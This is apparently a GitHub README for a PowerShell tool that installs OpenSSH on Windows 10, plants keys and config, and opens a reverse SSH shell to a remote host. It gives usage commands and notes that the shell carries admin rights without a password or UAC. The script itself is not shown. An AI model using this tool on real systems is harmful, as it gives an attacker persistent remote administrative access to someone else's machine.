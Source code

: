 # lol-reverseSSHell
Living Off the LAN Reverse Shell over SSH

This script is intended to make working with SSH reverse shells easier on Windows 10. It will install OpenSSH Server (if missing) on Windows 10 via WindowsCapability. Then it will copy the sshd_config file, SSH private key, and authorized_keys file to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
* get-help .\lol-reverseSSHell.ps1 

* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

Unix vs Windows Reverse SSH Shell Differences & the Interesting Security Implications for Windows
-------------------------------------------------------------------------------------------------
Running list as I do research: 
* Unknown usernames are ok - Once you have a shell, Windows does NOT require knowing the username. A simple call to localhost will connect to a shell under the context of the user that initiated it. 
  --- Windows Example --- ssh localhost -p <localport>   
  --- Unix Example ------ ssh user123@localhost -p <localport> 
* Admin privleges - Because the shell is ran using an admin PS promt, your shell will have admin privleges without ever knowing the user's admin password. No sudo commands or UAC to prevent elevated privleges. Which means you can modify system files without issue.  

